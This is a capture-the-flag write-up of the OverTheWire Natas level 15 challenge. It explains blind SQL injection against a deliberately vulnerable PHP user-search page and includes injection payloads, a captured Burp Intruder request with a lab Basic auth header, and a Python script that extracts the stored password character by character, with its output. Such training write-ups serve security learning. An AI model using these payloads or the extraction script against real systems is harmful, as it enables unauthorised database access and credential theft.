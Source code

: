```yaml
---
layout: post
title: "Natas Level15 - Level16"
date: 2015-10-02 21:06:42
image: '/assets/img/'
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

 Natas 15 looks like it is going to be fun! When I first get to the page, I am greeted by a simple User name search:

![Natas 15 search](/assets/img/screenshots/Natas_level15-1.png)

The page will then respond with:

![Natas 15 response](/assets/img/screenshots/Natas_level15-2.png)

Lets take a look at the source:

    <html>
    <head>
    <!-- This stuff in the header has nothing to do with the level -->
    <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
    <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
    <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
    <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
    <script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
    <body>
    <h1>natas15</h1>
    <div id="content">
    <?

    /*
    CREATE TABLE `users` (
      `username` varchar(64) DEFAULT NULL,
      `password` varchar(64) DEFAULT NULL
    );
    */

    if(array_key_exists("username", $_REQUEST)) {
        $link = mysql_connect('localhost', 'natas15', '<censored>');
        mysql_select_db('natas15', $link);

        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
        if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
        }

        $res = mysql_query($query, $link);
        if($res) {
        if(mysql_num_rows($res) > 0) {
            echo "This user exists.<br>";
        } else {
            echo "This user doesn't exist.<br>";
        }
        } else {
            echo "Error in query.<br>";
        }

        mysql_close($link);
    } else {
    ?>

    <form action="index.php" method="POST">
    Username: <input name="username"><br>
    <input type="submit" value="Check existence" />
    </form>
    <? } ?>
    <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
    </div>
    </body>
    </html>

Again, looking at the source we can tell that this is a sql injection vulnerability. you can see this in the query:

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";

I suspect that the table contains usernames and passwords. To check that I ran the following query:

    natas16" AND password IS NOT NULL AND "1"="1

Explanation: "password IS NOT NULL" will just check to see if anything exits. if it does it should return true. the 'AND "1'="1' just allows this query to properly execute since that condition is true (And I needed something with quotes for this to be a valid query :))

Next I submitted a query that will check if the passwords first character is "a":

    natas16" AND LEFT(password, 1) = "a

No surprises here, I got a "User does not exist" error. Next I captured this request, and sent it to the Burp Intruder. I set up only a position around the "a" at the end and I loaded the A-Za-z0-9 presets. Here is an example of the request:

    POST /index.php HTTP/1.1
    Host: natas15.natas.labs.overthewire.org
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.2.1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://natas15.natas.labs.overthewire.org/index.php?debug
    Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 56

    username=natas16%22+AND+LEFT%28password%2C+1%29+%3D+%22§a§

I clicked run and got the first letter of the password:

![Natas 15 Burp Intruder](/assets/img/screenshots/Natas_level15-3.png)

Wait, what the hell?

![Natas 15 Duplicate letter](/assets/img/screenshots/Natas_level15-4.png)

It looks like the first letter is "w" but the database is not case sensitive so the Burp Intruder found both "w" and "W" send back the same response. To fix this, we just need to change the statment a bit:

    natas16" AND LEFT(password, 1) COLLATE latin1_general_cs = "w

"COLLATE latin1_general_cs" will override the default collation into one that is case sensitive. After I ran this, I got the reponse: "User does not exist." However, when I ran it with the "W" character, I got got the response "User Exists". So lets summarize what we know:

 1. The table has usernames and passwords
 2. All passwords thus far have only contained letters and numbers and were 32 characters long
 3. The database is case insensitive

With those conditions, this sounds like the perfect time to create a script :)

    import urllib
    import urllib2
    cookie='__cfduid=d6d468235c70649795d3603f9283975561442874989; __utma=176859643.1107484385.1442874995.1443039560.1443041564.3; __utmz=176859643.1442874995.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); __utmc=176859643'

    url = 'http://natas15.natas.labs.overthewire.org/index.php'
    referrer = 'natas15.natas.labs.overthewire.org'
    authorization = 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='

    Chars = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r',
    's','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L',
    'M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5',
    '6','7','8','9']

    password = ""

    #loop through possible length of password
    for i in range(1, 33):
        print "%d out of 32" % (i)
        #loop through possible chars
        for j in range(0,len(Chars)):
            sqli = 'natas16" AND LEFT(password, %d) COLLATE latin1_general_cs = "%s' % (i,password + Chars[j])
            values = {'username' : sqli}
            data = urllib.urlencode(values)
            req = urllib2.Request(url, data)
            req.add_header('Cookie', cookie)
            req.add_header('Referrer', referrer)
            req.add_header('Authorization', authorization)
            try:
                response = urllib2.urlopen(req)
                the_page = response.read()
                #print the_page
            except HTTPError, e:
                print e.reason
            if "This user exists." in the_page:
                password+=Chars[j]
                print password
                break

I get the following output for the script:

    1 out of 32
    W
    2 out of 32
    Wa
    3 out of 32
    WaI
    4 out of 32
    WaIH

    ...

    29 out of 32
    WaIHEacj63wnNIBROHeqi3p9t0m5n
    30 out of 32
    WaIHEacj63wnNIBROHeqi3p9t0m5nh
    31 out of 32
    WaIHEacj63wnNIBROHeqi3p9t0m5nhm
    32 out of 32
    WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

Boom! our password is:
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

